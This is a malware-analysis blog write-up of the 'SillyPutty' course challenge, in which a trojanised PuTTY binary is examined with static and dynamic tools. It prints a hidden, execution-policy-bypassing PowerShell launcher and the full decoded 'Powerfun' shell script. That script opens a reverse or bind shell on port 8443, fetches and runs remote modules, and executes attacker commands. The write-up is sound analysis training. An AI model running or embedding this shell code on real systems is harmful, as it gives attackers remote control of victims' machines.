 ```yaml
---
title: "PMAT Challenge 1: SillyPutty"
description: SillyPutty
summary: First challenge of the TCM Academy Practical Malware Analysis and Triage course.
draft: false
tags: ["cyber security", "malware analysis"]
---
```


## Introduction

[TCM Academy](https://academy.tcm-sec.com/) is a great resource for learning cyber security concepts. 
Their noble goal is to offer top-notch cyber security courses, taught
by great teachers, with a price that is affordable for everyone. 
Their slogan is:
>Want to learn how to hack things without breaking the bank? We've got you covered.

I can absolutely vouch for their course [Practical Malware Analysis and Triage](https://academy.tcm-sec.com/p/practical-malware-analysis-triage).
Matt Kieley is an amazing teacher whose enthusiasm shines through all his lectures. 

In this article, I will be looking at the first challenge of this course, named "SillyPutty".
All materials can be found on this Matt's Github page:

[https://github.com/HuskyHacks/PMAT-labs/tree/main/labs/1-3.Challenge-SillyPutty](https://github.com/HuskyHacks/PMAT-labs/tree/main/labs/1-3.Challenge-SillyPutty)

The analysis is performed on a Flare VM and REMNux to simulate network services.
The goal of this challenge is to answer multiple questions about the behavior of
the binary in question, so with these questions as guidance, let's start!

## Static Analysis
  
We set out by pulling hashes and gathering some data about the binary by pulling the SHA256 hash, the following command:
```
Get-FileHash putty.exe
```
Returns this hash:
```
0C82E654C09C8FD9FDF4899718EFA37670974C9EEC5A8FC18A167F93CEA6EE83 
```

The hash will be used later on to find some information about it in VirusTotal.
Now we move on to investigating the header of the binary as part of basic static analysis.
Using PEStudio, the binary shows that the first few bytes are the following
```
M Z x .. .. .. .. .. .. .. .. .. .. .. .. .. .. .. ..
```
This indicative of a Windows Portable Executable, and the architecture is 32-bits. 
Searching for the SHA256 hash in VT shows that it is definitely malicious, with 59/72 AV vendors
marking this as a virus:
![VT](img/vt.png)
  
Now strings will be extracted by using FLOSS on the binary. This gives a long wall of strings to search through, but looking carefully
the following seemingly malicious Powershell command can be observed. It attempts to execute
a base64 encoded blob (removed from this command for brevity):
```
powershell.exe -nop -w hidden -noni -ep bypass "&([scriptblock]  
::create((New-Object System.IO.StreamReader(New-Object System.IO.   
Compression.GzipStream((New-Object System.IO.MemoryStream  
(,[System.Convert]::FromBase64String('BASE64 BLOB HERE'))),  
[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))"
```

What stands out about this command in particular are the parameters, as 
this command attempts to spawn with a hidden window (-w hidden), in non-interactive
mode (-noni), and bypassing the execution policy (-ep bypass).

A further look at the PE header, the import address table (IAT) in particular, shows there are many API calls 
that may be abused for malicious activity, such as RegCreateKeyA, ShellExecutaA, CreateProcessA, GetClipBoardData, 
there are too many to name. Judging from the readily visible API calls, there is no indication that this binary is packed.
Running the binary through PEiD shows that the binary is unpacked (or at least unrecognized by PEiD). This concludes
the basic static analysis. Next, we turn to the dynamic analysis to observe the behavior while running the binary. 


## Dynamic Analysis

To start dynamic analysis, the executable is run as-is, without any internet service simulation. 
Running the executable shows a Powershell window for a brief moment, which is abnormal behavior for non-malicious Putty.
Using procmon, it is observed that the previous encountered powershell script opens port 8443 on the machine. To better understand
what the script does, we need to decode it first. The base64 blob is decoded, followed by a Gunzip step in CyberChef, which shows the following contents:
```powershell
# Powerfun - Written by Ben Turner & Dave Hardy

function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}
```
From the looks of it, this script indeed opens a reverse shell on port 8443. 
We also see that it takes multiple commands, such as "bind" and "reverse", referring
to the nature of the shell that will be spawned on the compromised host. The SSL con feature
suggests that the communication with the shell is likely encrypted with SSL. 
If we keep an eye on Wireshark while detonating the binary, multiple DNS requests
are observed to the following domain (as can also can be observed in the script):
```
bonus2.corporatebonusapplication.local
```
  
Armed with the knowledge that the binary opens what seems to be a reverse shell on port 8443, we head over
to REMnux to set up a Netcat listener:
```
nc -l 10.0.0.101 8443
```
Indeed, when running putty.exe again we will have a shell:

![shell](img/shell.png?width=100px)

This shell shows garbled output, because we do not have the right SSL certificate
to properly connect to this shell. 

## Conclusion

This concludes challenge 1, as all the questions have been answered. 
Practice makes perfect, and doing these challenges is a lot of fun!
I'm looking forward to what the other challenges are like,
even though this is was just a warmup in terms of analysis.



